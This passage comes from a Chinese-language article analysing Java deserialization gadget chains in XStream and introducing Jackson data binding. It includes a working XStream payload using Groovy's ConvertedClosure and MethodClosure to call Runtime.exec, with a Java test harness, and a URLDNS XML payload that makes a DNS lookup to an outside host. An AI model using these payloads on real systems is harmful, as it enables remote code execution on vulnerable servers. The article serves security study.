System.out.println(new XStream().toXML(getObject()));
}对生成的内容进行解组
public static void main(String[] args) throws Exception {
XStream xStream = new XStream();
xStream.fromXML(xStream.toXML(getObject()));
}会看到熟悉的异常内容。

ConvertedClosure
除此之外，是否有 EventHandler 的替代品？有，它就是 groovy 中的 org.codehaus.groovy.runtime.ConvertedClosure
需要
groovy <= 2.4.3。
ConvertedClosure 继承自父类 ConversionHandler，它的 invoke 方法如下
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
VMPlugin plugin = VMPluginFactory.getPlugin();
if (plugin.getVersion() >= 7 && this.isDefaultMethod(method)) {
// ...
} else if (!this.checkMethod(method)) {
// [10] 若 method 不是 Object 类中定义的
try {
return this.invokeCustom(proxy, method, args);
} catch (GroovyRuntimeException var6) {
throw ScriptBytecodeAdapter.unwrap(var6);
}
}
// ...在 [10] 中，当被调用方法 method 不为 Object 类中定义的方法时则会调用抽象方法 invokeCustom，这里调用的是 ConvertedClosure#invokeCustom
public Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable {
return this.methodName != null && !this.methodName.equals(method.getName()) ? null : ((Closure)this.getDelegate()).call(args);
}当不满足条件 this.methodName != null && !this.methodName.equals(method.getName()) 时会调用 ((Closure)this.getDelegate()).call(args) 方法，可以看到它会通过反射调用 doCall 方法
public V call(Object... args) {
try {
return (V)this.getMetaClass().invokeMethod(this, "doCall", args);
}
// ...
}Closure 是个抽象类，它自身的 doCall 方法没什么特别的， 在它的子类中有一个类型 MethodClosure，它的 doCall 方法如下
protected Object doCall(Object arguments) {
return InvokerHelper.invokeMethod(this.getOwner(), this.method, arguments);
}InvokerHelper.invokeMethod 内部就是反射调用方法，那么可以通过控制 MethodClosure 的成员 method 来指定调用的方法达到任意方法调用的目的，从而造成命令执行。
XStreamGroovyExec.java
构造如下 XML 文件
<tree-set>
<string>open -a calculator</string>
<dynamic-proxy>
<interface>java.lang.Comparable</interface>
<handler class="org.codehaus.groovy.runtime.ConvertedClosure">
<methodName>compareTo</methodName>
<delegate class="org.codehaus.groovy.runtime.MethodClosure">
<owner class="java.lang.Runtime">
</owner>
<method>exec</method>
</delegate>
</handler>
</dynamic-proxy>
</tree-set>测试一下
public class XStreamGroovyExec {
public static void main(String[] args) throws Exception {
String from =
"<tree-set>\n"
+ " <string>open -a calculator</string>\n"
+ " <dynamic-proxy>\n"
+ " <interface>java.lang.Comparable</interface>\n"
+ " <handler class=\"org.codehaus.groovy.runtime.ConvertedClosure\">\n"
+ " <methodName>compareTo</methodName>\n"
+ " <delegate class=\"org.codehaus.groovy.runtime.MethodClosure\">\n"
+ " <owner class=\"java.lang.Runtime\">\n"
+ " </owner>\n"
+ " <method>exec</method>\n"
+ " </delegate>\n"
+ " </handler>\n"
+ " </dynamic-proxy>\n"
+ "</tree-set>";
XStream xStream = new XStream();
xStream.fromXML(from);
}
}XStream 下的 URLDNS
前面的 Gadget 都太『重』了，如果只是想检测 URLDNS 就足够。你可以像前面一样把 URLDNS 拿来给 XStream 编组后直接用，但那不够本地化。回想一下 URLDNS 的调用栈如下
HashMap.readObject()
HashMap.putVal()
HashMap.hash()
URL.hashCode()
所以只要能触发其它 3 个 方法之一就足够了。而 MapConverter 是用于转换 HashMap 的，查看它的 unmarshal 方法实现
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
Map map = (Map) createCollection(context.getRequiredType());
// [8] 最终调用 putCurrentEntryIntoMap 将 entry 填入 map 中。
populateMap(reader, context, map);
return map;
}
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context,
Map map, Map target) {
reader.moveDown();
Object key = readItem(reader, context, map);
reader.moveUp();
reader.moveDown();
Object value = readItem(reader, context, map);
reader.moveUp();
// [9] 调用 put 方法，若类型为 HashMap 则会进一步调用 HashMap#putVal
target.put(key, value);
}在 [9] 中，如果类型是 HashMap 则能够触发 HashMap#putVal 方法。那么构造如下 XML 即可，具体可见 XStream 下的 URLDNS。
<map>
<entry>
<url>http://dwzpxhothu.dgrh3.cn</url>
<string>foo</string>
</entry>
</map>执行后效果如下

Converter 总结
在前面的利用链的构造内容中主要提到了 3 个 Converter，TreeSetConverter 和 SerializableConverter 和 MapConverter，这 3 个 Converter 在 Gadget 中的作用是为了触发 compareTo、readObject、hashCode 方法，下面将相关的 Converter 列举出来：
TreeSetConverter/TreeMapConverter：java.lang.Comparable#compareToSerializableConverter：java.io.Serializable#readObjectMapConverter：Object#hashCode
可以将
Converter理解为触发魔术方法的机制。
Jackson
Jackson 是 Fastxml 下的一个子项目，它为 Java 提供了一整套的 Json 数据处理的能力『当然它支持的数据格式早已不局限于 Json 了』，并且支持数据绑定『将 POJOs 与 Json 数据关联，也就是序列化机制』。
有关 POJO 的概念，见 POJO vs JavaBeans
而有关数据绑定的部分，则位于一个单独的子项目 jackson-databind，它是本节的讨论对象，后面为了方便，简称 jackson。
在 Moritz Bechler 的研究报告中最早提到过与 jackson，并给出了相关利用链。在讨论具体的漏洞之前，先来简单了解一下 jackson 的序列化机制。
下面使用的
jackson-databind版本为2.7.0。
JacksonMarshaller.java
Jackson 在反序列化时要求类必须有默认的无参构造方法『不关心访问属性』，否则在反序列化时会产生如下异常
Exception in thread "main" com.fasterxml.jackson.databind.JsonMappingException: No suitable constructor found for type [simple type, class com.trganda.pojo.Person]: can not instantiate from JSON object (missing default constructor or creator, or perhaps need to add/enable type information?)
at [Source: {"name":"trganda","age":18,"phone":{"areaCode":1,"local":1}}; line: 1, column: 2]
at com.fasterxml.jackson.databind.JsonMappingException.from(JsonMappingException.java:216)
at com.fasterxml.jackson.databind.deser.BeanDeserializerBase.deserializeFromObjectUsingNonDefault(BeanDeserializerBase.java:1130)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserializeFromObject(BeanDeserializer.java:298)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:133)
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3788)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2779)
at com.trganda.JacksonMarshaller.main(JacksonMarshaller.java:20)假设有两个 JavaBeans，PhoneNumber 和 Person
public class Person {
public String name;
public int age;
public PhoneNumber phone; // embedded POJO
// standard constructor, getters and setters
}
public class PhoneNumber {
public int areaCode;
public int local;
// standard constructor, getters and setters
}构造对象并对它进行序列化
public class JacksonMarshaller {
public static void main(String[] args) throws IOException {
PhoneNumber phoneNumber = new PhoneNumber(1, 1);
Person person = new Person("trganda", 18, phoneNumber);
ObjectMapper objectMapper = new ObjectMapper();
String result = objectMapper.writeValueAsString(person);
// pretty format
// String result = objectMapper.writerWithDefaultPrettyPrinter().writeValueAsString(person);
System.out.println(result);
Person person1 = objectMapper.readValue(result, Person.class);
System.out.println(person1);
}
}输出如下
{"name":"trganda","age":18,"phone":{"areaCode":1,"local":1}}如果希望对输出结果进行美化，可以使用
String result = objectMapper.writerWithDefaultPrettyPrinter().writeValueAsString(person);观察一下序列化后的数据，其中并没有类型信息，Jackson 在反序列化时需要在参数中指定类型信息，例如前面的 objectMapper.readValue(result, Person.class)。
Polymorphic Typing
而在反序列化中想要进行利用，需要能够构造指定类型，并直接或间接的调用相应的方法『魔术方法』。而 Jackson 是基于 JavaBeans 设计的，它在反序列化时会调用相应的 setter 方法『如果存在』。
那么可以知道的是能够调用的魔术方法有两类：
- 无参构造方法
setter方法
参考
- index.html 『Oracle 对 JAXB 的介绍文档』
- XMLEncoder.html 『XMLEncoder 文档』
- Marshalling_(computer_science) 『
Marshalling（编组）的概念』 XStream- xstream-remote-code-execution-exploit.html 『Dinis Cruz Blog 有关
XStream远程代码执行漏洞文章的备份』 - standard-way-to-serialize-and.html 『如何使用
XStreamMarshal/UnmarshalJava 对象』 - RESTing%20On%20Your%20Laurels%20Will%20Get%20You%20Powned9RSA.pdf 『RESTing on Your Laurels Will Get You Pwned 的 PPT 文档，RSA 2014 版本』
- msg00605.html 『
XStream如何在Unmarshal时调用方法』 - converter-tutorial.html 『如何自定义 Converter』
- CVE-2013-7285.html 『CVE-2013-7285』
- 94666ae6dfe839410c73bdfeeb211374f04a2059 『CVE-2013-7285 修复 Commit』
- xstream-remote-code-execution-exploit.html 『Dinis Cruz Blog 有关
Jackson- on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062 『On Jackson CVEs: Don’t Panic — Here is what you need to know』
- jackson-2-11-features-40cdc1d2bdf3 『Jackson BLOCK_UNSAFE_POLYMORPHIC_BASE_TYPES 属性的介绍』
- exploiting-jackson-rce-cve-2017-7525 『Exploiting the Jackson RCE: CVE-2017-7525』
- 60d459cedcf079c6106ae7da2ac562bc32dcabe1 『CVE-2017-7525 修复』
- jackson-polymorphic-deserialization-91426e39b96a 『Jackson Polymorphic Deserialization』